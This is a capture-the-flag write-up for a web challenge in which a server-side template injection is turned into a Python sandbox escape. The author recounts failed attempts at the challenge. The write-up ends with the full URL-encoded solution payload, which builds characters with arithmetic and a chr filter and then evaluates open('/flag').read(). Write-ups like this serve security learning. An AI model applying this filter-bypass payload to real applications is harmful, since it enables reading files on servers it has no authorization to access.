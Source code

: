 # web/super-secure-translation-implementation

Author: lyellread

Get creative and try to bypass the unhackable security measures that keep this site safe.

---

Name gave it away: SSTI

In essence, this is a pyjail challenge in the form of an SSTI vuln. Looking at the source, we are allowed to view other files in the same directory as app.py. To check which files we can view we need to use the Dockerfile provided. Thus, we can view filters.py and see that there are several string manipulation functions for us, as well as an eval().

I thought this would be an easy challenge, but it just shows how much I'm lacking in pyjail escapes.

First, I generated a list of printable ASCII chars using a script, and then pasted it into the payload to get all illegal chars. (At this point I hadn't realized I can simply read check.py for the allowed chars)

Then I copied the output of illegal chars and removed them from the list of ASCII chars in the script.

Now comes the escape portion. First I tried using b64d recursively to escape illegal characters, but it quickly became too long.

Then I realized that we're given chr(), and 1, 4, and 6. In my script, you can see my pathetic attempt to take advantage of this. I printed the ord of all illegal characters and manually decomposed them to math statements with 1, 4 and 6. After a painstaking hour or so, I was finally done with my first payload, and hoped for the best...

As expected it didn't work. After trying a few more payloads (most of them became too long for the limit of 161 chars) I finally gave up and went on to do other challs. The scripts and other stuff can be found in this folder

---

ps. soln for this was [https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload=%7B%7B%28%27%28o%27%2B%28111%2B1%29%7Cch%2B%27e%27%2B%2866%2B44%29%7Cch%2B%27%28%22%27%2B%2844%2B1%2B1%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%29%7Cch%2B%27l%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%2B1%29%7Cch%2B%27%22%29%27%2B%2844%2B1%2B1%29%7Cch%2B%27re%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%27d%28%29%29%27%29%7Ce%7D%7D](https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload=%7B%7B%28%27%28o%27%2B%28111%2B1%29%7Cch%2B%27e%27%2B%2866%2B44%29%7Cch%2B%27%28%22%27%2B%2844%2B1%2B1%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%29%7Cch%2B%27l%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%2B1%29%7Cch%2B%27%22%29%27%2B%2844%2B1%2B1%29%7Cch%2B%27re%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%27d%28%29%29%27%29%7Ce%7D%7D), which evals to (open('/flag').read())... I never thought of using redundant parentheses to bypass the check for open :(

